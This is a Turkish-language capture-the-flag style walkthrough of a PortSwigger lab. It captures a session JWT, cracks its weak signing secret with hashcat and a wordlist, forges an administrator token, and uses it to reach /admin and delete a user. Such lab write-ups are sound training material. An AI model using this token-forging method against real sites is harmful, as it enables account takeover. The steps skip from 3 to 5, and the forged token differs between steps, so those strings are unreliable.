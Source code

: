 # LAB 3 (JWT authentication bypass via weak signing key)

Elbette, bu **"JWT authentication bypass via weak signing key"** laboratuvarını birlikte adım adım çözelim. Burp Suite ve Hashcat kullanacağız. Başlıyoruz:

---

##  **Adım 1: JWT’yi yakala**

1. **Burp Suite’i başlat**, tarayıcını proxy’ye yönlendir.
2. Kullanıcı hesabına giriş yap:

   * **Kullanıcı adı**: `wiener`
   * **Şifre**: `peter`
3. Giriş yaptıktan sonra **"My Account"** sayfasına git. Burada JWT token gönderilir.
4. Bu isteği **Burp Repeater**’a gönder (sağ tık → "Send to Repeater").
5. Header kısmındaki JWT token'ı kopyala (Set-Cookie:) .

```

HTTP/2 302 Found
Location: /my-account?id=wiener
Set-Cookie: session=eyJraWQiOiI5OGYxYzk1Ni1lNDliLTRhMWEtYmU2My1iNmUwOTdjMmM2NDAiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTc0Nzg0Nzk2MCwic3ViIjoid2llbmVyIn0.9M1g1UNhloUtd63Kar\_-\_i-YTA0w4T72wGHNf1jdB48;
Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 0

```

---

## **Adım 2: JWT’yi brute-force ile kır**

JWT şu formatta olur:

```

header.payload.signature

````

Hashcat için `JWT` token'ını aşağıdaki gibi kullanacağız:

### Gerekli komut (Linux için örnek):

```bash
hashcat -a 0 -m 16500 jwt_token.txt jwt.secrets.list --show --force
````

 Eğer `jwt.secrets.list` yoksa, [PortSwigger’ın wordlist](https://github.com/PortSwigger/jwt-secrets/blob/main/jwt.secrets.list) dosyasını kullanabilirsin.

Örnek:

### veya

```bash
python3 jwt_bruteforce.py
```

**Sonuç**:
Hashcat doğru sırayı bulur, örnek çıktı:

```
eyJhbGciOi...:secret1
```

---

## **Adım 3: Sahte JWT oluştur**

eyJraWQiOiI5OGYxYzk1Ni1lNDliLTRhMWEtYmU2My1iNmUwOTdjMmM2NDAiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTc0Nzg0Nzk2MCwic3ViIjoiYWRtaW5pc3RyYXRvciJ9.o8z32hhLhz6NEIMnvF-9mQYbUnbom1zxU7KCBVwLzVk

![lab3jwt.png](lab3jwt.png)

---

## **Adım 5: Admin paneline eriş**

1. Burp Repeater’da yolu `/admin` olarak değiştir.
2. Authorization header’ındaki token’ı yeni oluşturduğun JWT ile değiştir.
3. İsteği gönder → Admin paneli gelmeli.

```
GET /admin HTTP/2
Host: 0a1200ac033b707c82122eb20096004f.web-security-academy.net
Cookie: session=eyJraWQiOiI5OGYxYzk1NiJkLTQ5Yi00YTFlLWJlNjMtYjZlMDk3YzJjNjQwIiwiYWxnIjoiSldUIn0.eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTc0Nzg0Nzk2MCwic3ViIjoiYWRtaW5pc3RyYXRvciJ9.o8z32hhLhz6NEIMnvF-9mQYbUnbom1zxU7KCBVwLzVk
Sec-Ch-Ua: "Not.A/Brand";v="99", "Chromium";v="136"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a1200ac033b707c82122eb20096004f.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

```

---

## **Adım 6: carlos’u sil**

```
/admin/delete?username=carlos
```

2. Bu URL'ye yeni bir `GET` isteği gönder.

---
